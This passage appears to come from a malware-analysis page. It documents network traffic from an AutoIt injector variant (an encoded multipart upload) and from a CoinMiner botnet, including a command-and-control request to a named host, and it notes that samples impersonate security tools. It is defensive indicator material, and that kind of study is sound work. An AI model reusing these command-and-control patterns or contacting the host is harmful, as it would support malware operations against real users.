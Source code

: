 <h4>Variant Autoit Injector (Base 64 + custom algorithm)</h4>

```
------------------3YI8f9ylk827O44x
Content-Disposition: form-data; name="BRElVD1NTQ=="

IQomRj5dSxwxBj89HANdNw==
------------------3YI8f9ylk827O44x
Content-Disposition: form-data; name="BRElVCNZVAo="

LxcuWCMYfQ4ZJA==
------------------3YI8f9ylk827O44x
Content-Disposition: form-data; name="ExsgVQ=="

B0x+V3xZDlpYJ2YpF1gJW35yPDUAR11SB1IHTHoGKA5cV1sjM39AV1kOfCZrYlVCXVQHDwZJKgcsC1oOCyBvdw==
------------------3YI8f9ylk827O44x
Content-Disposition: form-data; name="ExsgXytX"

QwRpOwRWTQoBbQVmUy1XGS1rDRwaVANSGQBXSHkRDmhsTy1lZWFEXn8jMmMlcQd+SlwUAlNBfxEAWgJPTU9mfTJXAF1+AG5mdzE=
------------------3YI8f9ylk827O44x
Content-Disposition: form-data; name="ABc8Xzk="

Ug==
------------------3YI8f9ylk827O44x
Content-Disposition: form-data; name="Bw5wRQxe"; filename="LxcuWCMYfQ4ZJA=="
Content-Type: application/octet-stream
```

<h4> CoinMiner 1ms0rry Botnet (HTTP)</h4>

```
HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: xxx
Content-Type: text/html; charset=UTF-8
Content-Length: 1
Connection: keep-alive
Set-Cookie: PHPSESSID=da19fc7e571fde73afc839a4b684260f; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
1

GET /cmd.php?hwid=C4BA3647 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Host: cq17178.tmweb.ru
```

<h4>Rest a lot of stealer and RAT used, the domain and IP are quickly used in the time for a mass campaign.</h4>
<a href"https://urlhaus.abuse.ch/url/407605/">https://urlhaus.abuse.ch/url/407605/</a>

<h4>We can note like the initial sample that usurp Malwarebytes solution, this usurps others security solutions or windows programs (here, Internet Explorer). Malwarebytes solution, this usurps others security solutions or windows programs (here, Internet Explorer).</h4>
